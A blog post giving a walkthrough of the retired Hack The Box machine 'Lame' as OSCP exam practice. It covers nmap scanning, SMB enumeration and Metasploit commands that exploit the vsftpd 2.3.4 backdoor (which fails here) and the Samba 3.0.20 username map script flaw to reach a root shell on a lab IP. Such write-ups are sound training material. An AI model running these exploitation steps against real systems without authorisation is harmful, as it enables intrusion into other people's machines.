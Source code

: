 ```yaml
---
type: post
title: "Hack the Box Lame Writeup"
date: 2020-05-11 20:27:00 +1000
---
```

Welcome to the first in this series of writeups of "OSCP-like" boxes as inspired by TJNull's great article about [OSCP preparation.](https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html)

The OSCP certification is a hands-on exam. With the requirement to hack multiple boxes in the exam lab and produce a detailed pentesting report it relies heavily on real world skills. To begin we will be hacking Lame from <https://hackthebox.eu> and because this is a retired box, we are allowed to post public solutions.

## Overview

![Lame information image](/assets/img/htb-lame-info.png){: .align-right}

Lame is an easy Linux based box from HTB and was one of the earliest that went live. It is a very easy box but also a great example of how powerful some RCE vulnerabilties can be, especially in core networking services like SMB and Samba!

Skills tested:

- Port scanning
- Service enumeration
- Vulnerability CVE identification
- Vulnerability exploitation

## Scanning and Enumeration

Lets start with an [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) inspired nmap scan using the options `nmap -sC -sV -oA nmap/lame 10.10.10.3` which will give us a good idea of what's on the box.

Nmap options explained:

- `-sC` runs the [default nmap scripts](https://nmap.org/nsedoc/categories/default.html) and provides extra information on many commonly seen services
- `-sV` performs service version detection
- `-oA` exports the output to text, grepable and xml formats
- I do *not* use `-O` or `-A` because I find OS detection unreliable and it is usually more accurate to use the service versions

Breaking down the nmap results gives us the following services that we can investigate in more depth

### Port 21 VSFTPD 2.3.4

```text
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
```

The nmap option `-sC` already ran the default ftp-anon.nse script for us and we can see that that the FTP allows for anonymous access. Nmap has also identified the version as vsfptd 2.3.4

This FTP server does not contain any interesting files but vsftpd 2.3.4 is vulnerable to a backdoor command injection. Running `searchsploit vsftpd 2.3.4` will find a Metasploit module for this!

![Searchsploit for vsftpd 2.3.4](/assets/img/searchsploit-vsftpd.png){: .align-center}

We could also google the service and version to arrive at the Rapid7 metasplolit module documentation.

<https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor>

![Google results for vsftpd 2.3.4](/assets/img/vsftpd-google.png){: .align-center}

### Port 22 OpenSSH 4.7p1

```text
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
```

There are SSH vulnerabilities, but remote code execution is rare and SSH is usually reasonably hardened. Password spraying and stuffing are common techniques used by threat actors in real life but it's not as successful against CTF machines, so we will skip attacking SSH directly.

However, SSH banners can often disclose information about the Linux version. After a bit of googling we can discover that it's Ubuntu "Hardy Heron" 8.04 from 2008

### Port 139 and 445 Samba 3.0.20

```text
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Host script results:
|_clock-skew: mean: -3d00h55m45s, deviation: 2h49m45s, median: -3d02h55m47s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-05-08T08:30:29-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

SMB is a very popular target, both Windows and Linux have remote code execution vulnerabilities and misconfigurations are a common method for gaining a foothold or exposing sensitive information.

Enumeration of SMB using `enum4linux -a 10.10.10.3` and `smbclient -L \\10.10.10.3` usually provides interesting results.

**Unfortunately, at the time of writing, the virtual machine clock is out of sync and this means that SMB can fail to connect with the error *protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED* resulting in difficulty enumerating further**

We can continue our enumeration by searching <https://exploit-db.com> for Samba 3.0.20 and find another Metasploit module. This time for a "Username map script Command Execution" vulnerability which looks promising.

![Search results on exploitdb.com](/assets/img/samba-exploit.png){: .align-center}

## Exploitation

Our scanning and enumeration identified two likely paths of attack, both with metasploit modules available. First start the Metasploit database using `systemctl start postgresql.service` then run the metasploit console using `msfconsole` and lets get hacking!

![Metasploit console image](/assets/img/metasploit-console.png){: .align-center}

### VSFTPD Exploitation

Searching for the VSFTPD backdoor with `search vsftpd` displays only one exploit, so lets use that.

```text
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

1. Load the module with `use exploit/unix/ftp/vsftpd_234_backdoor`
2. Check the options by typing `show options`
3. Set the RHOSTS variable to our target with the `set RHOSTS 10.10.10.3` command

![vsftpd exploit setup](/assets/img/vsftpd-msfconsole.png){: .align-center}

Finally, we simply type `exploit` and...

![vsftpd exploit failure](/assets/img/vsftpd-exploit-fail.png){: .align-center}

Unfortunately, we get the "Exploit completed, but no session was created" error message which usually means that the target is not actually vulnerable. Perhaps some naughty CTF creator fixed it without updating the version and left us with a rabbit hole to get stuck in? ;)

That failure does not stop us though, we have more exploits to try!

### Samba Exploitation

Following the same steps as before we can use Metasploit again to try the Samba 3.0.20 username map command execution vulenrably.

1. Type `search Samba` within Metasploit
2. Select the module by typing `use exploit/multi/samba/usermap_script`
3. Set the RHOSTS with `set RHOSTS 10.10.10.3`
4. And `exploit`

This time we should see something much better, a sucessful command shell where can run Linux commands and we seem to be root!

![sucessful command shell](/assets/img/samba-exploit-msfconsole.png){: .align-center}

You now have completely rooted this system, so pillage away and grab those user.txt and root.txt flags. Congrats on an awesome hack!
